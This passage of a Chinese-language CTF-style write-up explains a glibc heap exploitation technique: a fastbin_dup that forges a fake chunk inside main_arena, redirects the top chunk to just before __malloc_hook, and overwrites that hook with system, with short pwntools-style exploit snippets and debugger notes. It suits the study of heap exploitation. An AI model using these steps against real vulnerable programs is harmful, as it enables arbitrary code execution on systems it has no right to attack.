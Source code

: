 这样的一个流程结束之后就相当于在`main_arena`中 0x50 的 chunk 链表处写入了`0x00000061`

用 GDB 调试再用`find_fake_fast`

![](https://static.hack1s.fun/images/2021/03/10/image-20210310152249545.png)

现在已经让`main_arena`中可以满足 size 字段的检查了，接下来再通过一次 fastbin_dup 来申请这个位置的 chunk

malloc 和 free 的流程如下

```
c=malloc(0x58,"C")
d=malloc(0x58,"D")

free(c)
free(d)
free(c)

malloc(0x58,p64(libc.sym.main_arena+40))
malloc(0x58,"c")
malloc(0x58,"d")

```

这里的 40 是通过看 0x50 的 chunk 所在的位置`p &main_arena->fastbinsY[3]`

运行完毕之后查看 fastbins

![](https://static.hack1s.fun/images/2021/03/10/image-20210310153723077.png)

发现这个地址好像没有对上，覆盖的那个地方应该是`7b80`，但是写的是`7b88`

所以第二次填充的那个再改一下，改成`libc.sym.main_arena+32`

这样从`0x7b80`开始就是一个符合 chunk 结构的 fake chunk 了

![](https://static.hack1s.fun/images/2021/04/01/image-20210401161229831.png)

目标就是修改掉红框中的这个

Arena 的结构中有一个地方是指示了 top chunk 的

可以尝试通过在`main_arena`中修改掉 top chunk 的值，修改为`__malloc_hook`前面 0x10 字节

这样之后申请写入就是直接修改`__malloc_hook`了

![](https://static.hack1s.fun/images/2021/03/10/image-20210310161659389.png)

我们伪造的 chunk 的 user data 是从 0x60 开始的

所以首先要填充所有的 fastbin，之后的一个字就是 top chunk

所以再一次 malloc 修改 top chunk，一次 malloc 修改`__malloc_hook`

```
malloc(0x58,b"a"*0x10*3+p64(lib.sym.__malloc_hook-0x10))
malloc(0x28,p64(libc.sym.system))

```
